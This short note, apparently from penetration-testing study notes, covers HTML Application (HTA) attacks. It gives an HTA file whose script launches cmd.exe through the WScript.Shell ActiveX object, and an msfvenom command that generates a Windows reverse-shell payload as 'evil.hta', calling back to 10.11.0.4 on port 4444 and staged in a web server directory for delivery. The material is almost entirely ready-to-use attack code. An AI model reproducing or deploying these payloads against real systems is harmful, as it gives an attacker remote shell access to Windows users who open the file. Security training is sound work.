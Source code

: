 # HTML application  

hta file  

```
<html>
<body>

<script>

  var c= 'cmd.exe'
  new ActiveXObject('WScript.Shell').Run(c);
  
</script>

</body>
</html>
```  

Using msfvenom based on powershell.  

`sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta`  

